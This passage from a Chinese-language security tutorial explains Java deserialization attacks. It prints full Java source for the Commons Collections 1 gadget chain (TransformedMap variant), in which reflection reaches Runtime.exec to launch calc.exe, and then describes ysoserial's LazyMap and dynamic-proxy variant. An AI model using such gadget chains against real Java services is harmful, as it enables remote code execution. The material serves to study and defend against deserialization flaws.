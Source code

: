 ```java
import java.util.Map;

public class CommonsCollections1TransformedMap {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getDeclaredMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
                new ConstantTransformer(1)
        }; // 通过反射获取 Runtime 对象来执行命令

        Transformer transformerChain = new ChainedTransformer(new Transformer[]{new ConstantTransformer(1)}); // 先将 chain 设置成其它 transformer, 防止生成 exp 的时候触发回调

        Map innerMap = new HashMap();
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain); // 得到 TransformedMap

        innerMap.put("value", 123); // 放入 value key

        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler"); // 通过反射实例化 AnnotationInvocationHandler
        Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(Retention.class, outerMap); // 利用 Retention.class 绕过构造方法限制

        Reflection.setFieldValue(transformerChain, "iTransformers", transformers); // 通过反射将 chain 设置回去
        Serialization.test(handler); // writeObject and readObject
    }
}
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211231533856.png)

### LazyMap

ysoserial 用的是 LazyMap, 它的功能就是 "懒加载", 即在找不到某个元素的时候, 通过调用 transform 来获取该元素

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211231536140.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211231536148.png)

LazyMap 的触发点是 get 方法, 那么只需要找到一个在 readObject 时调用了 get 方法的类即可

与 TransformedMap 不同的是, AnnotationInvocationHandler 的 readObject 中并没有调用到 get 方法, ysoserial 的解决方法是通过动态代理用 AnnotationInvocationHandler 生成 Proxy Map, 当 readObject 中调用这个 Map 的任意方法时, 触发代理类的 invoke 方法, 刚好 AnnotationInvocationHandler invoke 中调用了 get 方法
